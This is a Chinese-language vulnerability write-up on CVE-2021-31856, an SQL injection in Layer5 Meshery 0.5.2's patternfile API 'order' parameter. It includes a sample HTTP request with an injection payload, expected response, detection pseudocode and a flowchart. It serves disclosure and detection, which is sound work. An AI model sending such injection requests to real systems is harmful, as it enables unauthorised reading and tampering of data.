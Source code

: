 # Layer5 Meshery 0.5.2 SQL 注入漏洞（CVE-2021-31856）

## 漏洞简介
Layer5 Meshery 0.5.2 存在 SQL 注入漏洞，攻击者可通过 REST API 的 `/experimental/patternfile` 接口的 `order` 参数注入恶意 SQL 语句，进而执行任意 SQL 命令，造成敏感信息泄露、数据篡改等严重后果。

## 影响范围
- 受影响产品：Layer5 Meshery 0.5.2
- CPE: `cpe:2.3:a:layer5:meshery:0.5.2:*:*:*:*:*:*:*`

## 漏洞原理
后端接口未对 `order` 参数进行有效过滤，直接拼接到 SQL 查询语句，导致攻击者可通过构造特殊参数实现 SQL 注入。

## 利用方式与攻击流程
1. 攻击者向 `/api/experimental/patternfile` 接口发送带有恶意 `order` 参数的 GET 请求。
2. 通过如 `select(md5(999999999))` 等注入语句，利用响应内容回显注入结果，确认漏洞存在。
3. 若验证成功，攻击者可进一步利用漏洞进行数据窃取、篡改等操作。

## 探测原理与流程
### 请求包示例
```http
GET /api/experimental/patternfile?order=id%3Bselect(md5(999999999))&page=0&page_size=0 HTTP/1.1
Host: target.com
```

### 响应示例
```http
HTTP/1.1 200 OK
...
e150a1ec81e8e92a4a1508a4c0a3cfa5
```

### 判定逻辑
- 响应状态码为 200。
- 响应体中包含 `e150a1ec81e8e92a4a1508a4c0a3cfa5`（即 `md5(999999999)` 的值）。

### 伪代码
```python
send_get(
    url="/api/experimental/patternfile?order=id%3Bselect(md5(999999999))&page=0&page_size=0"
)
if response.status_code == 200 and "e150a1ec81e8e92a4a1508a4c0a3cfa5" in response.text:
    print("存在 SQL 注入漏洞")
```

### Mermaid 流程图
```mermaid
flowchart TD
    A[开始] --> B[构造注入请求]
    B --> C[发送 GET 请求]
    C --> D{响应状态码是否为 200?}
    D -- 否 --> E[不存在漏洞]
    D -- 是 --> F{响应体是否包含 md5(999999999)?}
    F -- 否 --> E
    F -- 是 --> G[存在 SQL 注入漏洞]
```

## 参考链接
- [CVE-2021-31856 漏洞分析](https://github.com/ssst0n3/CVE-2021-31856)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2021-31856)
- [Meshery 官网](https://meshery.io)
- [修复 PR](https://github.com/layer5io/meshery/pull/2745)
- [ssst0n3/my_vulnerabilities](https://github.com/ssst0n3/my_vulnerabilities) 